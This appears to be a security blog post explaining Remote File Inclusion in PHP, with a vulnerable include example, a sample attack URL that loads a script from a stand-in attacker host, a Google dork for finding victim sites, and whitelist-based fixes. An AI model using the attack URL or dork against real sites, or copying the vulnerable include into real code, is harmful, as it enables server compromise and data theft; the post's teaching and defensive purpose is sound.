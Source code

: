 ```yaml
---
layout: post
title:  "Remote File Inclusion"
date:   2013-06-18 13:59:40
categories: vulnerabilities
---
```


Vulnerability Name Remote File Inclusion

Vulnerability Type : High

Description:Most RFI attacks against websites are built on the server-side scripting language PHP. Although PHP is not the only means of RFI, because it is the most popular it is what we’ll use for these examples.

	A common setup that can make a website vulnerable to RFI is when a developer uses PHP to include an external file based on data passed via URL parameter. For example, suppose your website contains links to sub-pages named about, photos and contact. And suppose these links are coded like this:

    index.php?page=about
    index.php?page=photos
    index.php?page=contact

	Now suppose that the PHP code on the server is written to extract the value of the “page” parameter in the URL (e.g. “about”) and uses that to include an external file, such as the content of about.html:

<?php include $_GET['page'].".html"; ?>
	
	At first glance this might seem like a logical way for a PHP script to load a page requested by the user, but it is a recipe for a potentially devastating RFI attack.

How RFI attack look like Example:

	By crafting a malicious URL to your server, the hacker may be able to trick your site into including any file he or she wants. Often, the hacker will have a malicious file planted on a server – let’s suppose the address is http://ev.il/badscript.php. The hacker now wants to execute this code on your server, by sending a request like this:

http://yoursite.com/index.php?page=http://ev.il/badscript.php?

	If the script on the victim server resembles the example from earlier, the server will execute the PHP include statement for the URL:

http://ev.il/badscript.php?.html

	Note how, by using the question mark character, the hacker neutralizes the problem of the “.html” extension that the PHP automatically adds by causing it to become a parameter in the request, which is then ignored. Sometimes hackers will do this by instead using a null byte %00 rather than a question mark. Either way, the victimized server will now execute badscript.php, which is entirely under the hacker’s control.

	The content of badscript.php can perform a wide range of actions, including probing the server it is running on for high-value files and delivering them to the hacker. For example, it could dump the content of all the scripts behind your website, revealing to the hacker any database passwords or other sensitive information which can be used in another, more damaging attack.

How to Finding Victims :

How does a hacker know which sites are coded to use file includes in a vulnerable way? Typically the hackers will scan for sites which use a particular URL syntax. These search queries are known informally as “googledorks.” Using Google with particular search parameters, hackers can generate a list of potential victim sites. For example, a “googledork” that would detect a site coded like our example victim is:

inurl:/index.php?page=

Of course, not every site that Google returns for this search will actually be vulnerable to RFI. It may be that the site does not use file inclusions like those in our example or that it has defended against them. But these searches are a way of narrowing down candidates and applying test queries against them to determine which are actually vulnerable to an RFI attack.

Preventing RFI:

Like all code injection attacks, RFI is a result of allowing unsecure data into a secure context. The best way to prevent an RFI attack is to never use arbitrary input data in a literal file include request.

Taking the example from earlier, a more secure way of implementing this site is by using an array to map the page parameter from the link to actual filenames on the server:

<?php

 $page_files=array( 'about'=>'about.html',

                    'photos'=>'photos.html',

                    'contact'=>'contact.html',

                    'home'=>'home.html'

                  );

 

if (in_array($_GET['page'],array_keys($page_files))) {

      include $page_files[$_GET['page']];

 } else {

      include $page_files['home'];

}

?>

 

 

In this example PHP code, the "page" parameter in the URL is merely a token that maps to the filename defined inside the script. If the URL request does not contain a valid token, the site loads the home page. Therefore it is impossible for a hacker to sneak a malicious RFI into this request.

In some cases it might not be possible to implement this type of architecture. For example, perhaps the site allows a user to create a file of his or her own and then display that file, therefore the filename is not known in advance and must be passed to the script.

You can try to defend against an RFI using a filter to thoroughly scrub input parameters against possible file inclusions. Google will turn up a variety of regular expression filters that can work – in most cases. But there’s the catch: There is always the possibility that any filter won’t catch certain edge cases, and a crafty RFI can still sneak through. It is not worth the risk.

Better yet, build a dynamic whitelist. When a user creates a file, insert that filename into a record (flat file or database) so that when he or she requests the file, the site can verify the filename before executing any include. As in the earlier example, this code logic prevents an RFI attack from being possible.

It is easy to code a site that is vulnerable to an RFI attack. That is why there are so many of them. The extra work in designing a back-end that is immune to RFI is well worth it compared to the risks of a major breach.